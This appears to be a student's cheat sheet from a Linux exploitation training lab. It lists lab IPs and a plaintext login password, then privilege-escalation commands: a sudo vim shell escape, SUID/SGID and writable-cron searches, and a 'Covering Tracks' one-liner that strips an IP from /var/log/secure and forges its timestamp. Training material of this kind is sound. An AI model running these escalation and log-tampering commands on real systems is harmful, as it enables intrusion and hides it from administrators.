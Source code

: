 # Linux Exploitation
# https://sec.cybbh.io/public/security/latest/lessons/lesson-10-linux-exploit_sg.html#_discuss_what_is_privilege_escalation
## Stack Info
```
--Stack Number
  5

--Username
CODA-503-M

--Password
Gx1LjlSgOgQJJMy

Boxes
Student - Password
--Linux ops
10.50.31.135
 
--Windows
xfreerdp /v:10.50.24.133 /u:student /dynamic-resolution +glyph-cache +clipboard
10.50.24.133

--Jump
10.50.27.155

--Password
Gx1LjlSgOgQJJMy

--CTFd
http://10.50.20.30:8000/resources
```
## Privilege Escalation
## https://gtfobins.github.io/ - break out of restricted shells
```
sudo -l

## User student may run the following commands
## vim /etc/ssh/sshd_config (or whatever file)

sudo vim /etc/ssh/sshd_config

## in vim

:!/bin/bash
```
## SUID/GUID 
```
find / -type f -perm /4000 -ls 2>/dev/null   #FIND SUID ONLY FILES
find / -type f -perm /2000 -ls 2>/dev/null   #FIND SGID ONLY FILES
find / -type f -perm /6000 -ls 2>/dev/null   #FIND SUID/SGID FILES
```
# Insecure Permissions
## CRON
```
#Cron daemon runs as root
https://crontab.guru/

/var/spool/cron/crontabs  #User level jobs
/etc/crontab              #System level jobs
/etc/cron.*               #Hourly,Daily,Weekly

crontab -l                #lists for current user
contab -u <user> -l       #lists for a specified user

find /var/spool/cron/crontabs /etc/cron* -writable -ls
#Finds any cron file or directory that can be written to.

find /etc/cron* -type f -exec grep -Eo '/.*' {} \;
#Find potential path and filename by looking for any entry that starts with a slash
```
## World-Writable Files and Directories
```
find / -type f -perm /2 -o -type d -perm /2 2>/dev/null
#Search for any file or directory that is writable by the context "other"

find / -type f -writable -o -type d -writable 2>/dev/null
#Search for any file or directory that is writable by the current user
```
## Vunerable Services 
```
ps aux | grep root   # root processes can be identified

netstat -antu 
#or                  # Open sockets
ss -antu
```
# Covering Tracks 
```
unset HISTFILE

grep -v "192.168.0.55" /var/log/secure > /tmp/secure.clean; mv /tmp/secure.clean /var/log/secure; touch -t 02180455 /var/log/secure

# Removes the IP address 192.168.0.55 from /var/log/secure and places it in a new file
called /tmp/secure.clean, moves the new file over the original file, and alters the timestamp in an attempt to make it look normal.


```

